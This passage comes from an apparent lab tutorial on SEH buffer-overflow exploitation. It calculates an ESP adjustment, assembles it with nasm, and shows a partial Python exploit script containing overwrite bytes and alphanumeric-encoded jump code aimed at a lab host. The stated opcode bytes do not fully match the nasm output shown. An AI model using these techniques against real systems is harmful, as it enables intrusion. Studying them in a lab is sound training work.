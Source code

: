 ![](/assets/images/CTP/land.JPG)

`ESP` is `017CFFB7`. 

The bottom of our `A` buffer before we hit our `espAdj2` code is `017CFF6C`. So to find out how much we need to adjust `ESP` we do: (`017CFFB7` - `017CFF6C` = `4B`). So we need to subtract `4B` from our `ESP` register value. To the Assembly:
```terminal_session
nasm > push esp
00000000  54                push esp
nasm > pop eax
00000000  58                pop eax
nasm > sub ax, 0x4b
00000000  6683E84B          sub ax,byte +0x4b
nasm > push eax
00000000  50                push eax
nasm > pop esp
00000000  5C                pop esp
```

So our `espAdj3` code is going to be: `\x54\x58\x2c\x4b\x50\x5c`

Let's add and test it. Our exploit code now looks like this:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'

Seh = '\x2b\x17\x50\x62'

espAdj = '\x54\x58\x66\x05\x4b\x13\x50\x5C'

jump = ""
jump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
jump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
jump += "\x05\x76\x40\x50\x50" ## add  eax, 0x50504076
jump += "\x05\x75\x40\x40\x40" ## add  eax, 0x40404075
jump += "\x50" 

espAdj2 = '\x54\x58\x2c\x2a\x50\x5c'
```